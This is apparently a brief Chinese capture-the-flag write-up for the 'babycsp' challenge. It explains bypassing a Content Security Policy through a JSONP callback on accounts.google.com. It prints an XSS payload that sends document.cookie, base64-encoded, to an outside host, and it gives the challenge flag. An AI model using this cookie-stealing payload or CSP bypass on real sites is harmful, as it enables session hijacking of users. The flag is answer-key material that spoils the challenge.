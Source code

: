# babycsp

CSP限制只能使用 `*.google.com` 的來源，然後`connect-src: *`

所以找個`*.google.com`的JSONP就能觸發XSS:

`<script src="https://accounts.google.com/o/oauth2/revoke?callback=alert(87);alert"></script>`

`<script src="https://accounts.google.com/o/oauth2/revoke?callback=fetch('http://kaibro.tw/?'%2bbtoa(document.cookie));btoa"></script>`

只是xss bot非常不穩定

我送了幾百次才收到Request

`flag{csp_will_solve_EVERYTHING}`
